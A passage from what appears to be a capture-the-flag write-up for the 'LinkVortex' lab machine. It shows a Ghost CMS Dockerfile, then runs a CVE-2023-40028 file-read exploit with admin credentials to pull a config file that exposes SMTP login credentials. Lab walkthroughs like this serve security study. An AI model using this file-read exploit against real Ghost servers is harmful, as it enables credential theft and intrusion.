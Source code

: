 ```bash
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```
We can see a few interesting directories, the most interesting one being the config. Let's attempt to read this with our lfi.
```bash
./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /var/lib/ghost/config.production.json
File content:
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
Enter the file path to read (or type 'exit' to quit):
```